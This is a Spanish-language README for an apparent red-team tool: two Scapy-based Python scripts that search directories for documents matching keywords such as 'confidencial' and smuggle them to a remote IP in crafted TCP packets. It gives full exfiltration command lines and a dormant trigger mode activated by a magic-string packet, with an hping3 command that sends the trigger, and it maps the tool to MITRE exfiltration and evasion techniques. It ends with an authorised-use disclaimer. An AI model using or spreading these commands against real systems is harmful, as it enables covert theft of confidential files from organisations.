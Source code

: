 # Transferencia de Archivos a través de capa de transporte TCP

Este proyecto contiene dos scripts en Python (sender.py y receiver.py) para la transferencia de archivos a través de la red utilizando paquetes TCP. El objetivo principal de estos scripts es permitir la búsqueda de archivos que contengan ciertas palabras clave y enviarlos a través de la red a una máquina destino. El proceso de envío y recepción se maneja mediante paquetes TCP personalizados utilizando la librería Scapy.

## Mitre v17

- 🌐 Protocol Tunneling (T1572)
- 🔒 Exfiltration Over C2 Channel (T1041)
- 📡 Non-Application Layer Protocol (T1095)
- 🤖 Automated Collection (T1119)
- 🔍 File and Directory Discovery (T1083)
- 🕵 Obfuscated Files or Information (T1027)
- 🐍 Command and Scripting Interpreter: Python (T1059.006)

## Características
1-. **sender.py**: Permite buscar archivos en un directorio local que contengan ciertas palabras clave y enviarlos a una máquina destino a través de la red.

2-. **receiver.py**: Escucha en una interfaz de red para recibir los paquetes enviados por sender.py y reconstruir el archivo recibido.

## Requisitos
- Python 3.x
- Librerías necesarias:
  - scapy
  - PyPDF2
  - python-docx
  - xlrd
  - openpyxl
  - python-pptx
  - odfpy
    
Puedes instalar las librerías necesarias ejecutando:
```
pip install scapy PyPDF2 python-docx xlrd openpyxl python-pptx odfpy
```

## Uso sender.py
  El script sender.py tiene dos modos de operación:
  
  ### Modo searchAndSend
  Busca archivos en un directorio especificado por palabras clave y los envía a una máquina destino.
    
  #### Ejemplo de uso:
  ```
  python3 sender.py searchAndSend --rootPath <directorio_raiz> --keywords <palabra1,palabra2> --destinationIp <IP_destino> --tcpFlag <flag_tcp>
  ```

  #### Argumentos:
  - **--rootPath**: Ruta del directorio donde comenzar a buscar archivos.
  - **--keywords**: Palabras clave que se buscarán en los archivos. Separadas por comas.
  - **--destinationIp**: Dirección IP del receptor (máquina destino).
  - **--destinationPort**: Puerto de destino (por defecto 80).
  - **--sourceIp**: Dirección IP de origen (por defecto 10.1.0.10).
  - **--sourcePort**: Puerto de origen (por defecto 12345).
  - **--tcpFlag**: Flag del protocolo TCP. Puede ser uno de los siguientes: S, A, P, F, R, U, SA, FA, SF o random.

  #### Ejemplo:
  ```
  python3 sender.py searchAndSend --rootPath ./NAS --keywords confidencial --destinationIp 192.168.1.100 --tcpFlag random
  ```

  ### Modo waitForOrder
  Este modo espera recibir un comando de red para iniciar el envío de archivos. Una vez que el comando es recibido, sender.py buscará y enviará los archivos a la máquina destino.

  #### Ejemplo de uso:
  ```
  python3 sender.py waitForOrder
  ```
  Este comando pone al script en espera de recibir paquetes que contengan la información necesaria para realizar el envío de archivos. El paquete de activación debe comenzar por "1j2k3l4m" seguido de:
  
  - Valor del directorio raiz
  - Palabras clave
  - Dirección ip destino
  - Flag TCP

  Cada valor debe ir separado por "|"
  La cadena inicial "1j2k3l4m" sirve para identificar el paquete que activa el proceso. Se debe ajustar el parámetro -d con la longitud del string.

  #### Ejemplo
  ```
  1j2k3l4m./NAS|seguridad|192.168.1.11|S
  1j2k3l4m/home/user/Documents|planos|10.0.1.11|random
  1j2k3l4m/home/user/Documents|confidencial|198.51.100.12|F
  ```
  Puedes utilizar hping3 para realizar una prueba en la activación del proceso.
  ```
  echo -n "1j2k3l4m./NAS|seguridad|192.168.1.11|S" | sudo hping3 -S -p 80 -s 12345 -d 38 -E /dev/stdin 192.168.1.100
  ```

## Uso receiver.py
  El script receiver.py se utiliza para recibir los paquetes enviados por sender.py, reconstruir los archivos y guardarlos localmente. Solo se necesita ejecutar este script en la máquina que recibirá los archivos.

  #### Ejemplo de uso:
  ```
  python3 receiver.py
  ```
  El script comenzará a escuchar en la interfaz de red especificada (por defecto eth0) para recibir los paquetes y guardar los archivos en el directorio ./OUTPUT.
  
  ### Detalles de funcionamiento

  - **Envío de paquetes**: Los archivos se envían como fragmentos de paquetes TCP que se envían utilizando la librería Scapy. Cada fragmento incluye un identificador único ("magic") para asegurar que los paquetes sean correctamente reconocidos y procesados.

  - **Recepción de archivos**: El script receiver.py escucha los paquetes entrantes y va reconstruyendo el archivo a medida que recibe los fragmentos. Al finalizar la transferencia, el archivo es guardado en el directorio ./OUTPUT.

  #### Formatos de archivo soportados:
  - PDF
  - DOCX
  - TXT
  - XSL
  - XLSX
  - ODT
  - PPTX

  Estos formatos son procesados para extraer su contenido y buscar las palabras clave.

## Seguridad
  - **ARP Spoofing**: Para evitar la resolución ARP (Address Resolution Protocol), la variable conf.arp_resolve está configurada a False en el script sender.py, lo que evita que se realicen consultas ARP durante el envío de paquetes.
  - **Dirección MAC estática**: La dirección MAC de destino está hardcodeada en el script como 00:11:22:33:44:55, lo cual podría ser necesario ajustarlo si se utiliza una red diferente.

## Responsabilidad
Esta herramienta está diseñada para realizar pruebas de penetración y auditorías de seguridad en sistemas de manera ética y legal. Su propósito principal es ayudar a los profesionales de la ciberseguridad a identificar vulnerabilidades y debilidades en sus propios sistemas o en los de organizaciones que hayan dado su consentimiento explícito. Solo úsala en redes o sistemas para los cuales tengas permiso explícito. El uso en sistemas en los que no tengas autorización es ilegal y puede tener consecuencias graves.

## Contribuciones
Si deseas contribuir a este proyecto, por favor, realiza un fork del repositorio, realiza tus cambios y abre un pull request con una descripción detallada de las modificaciones.
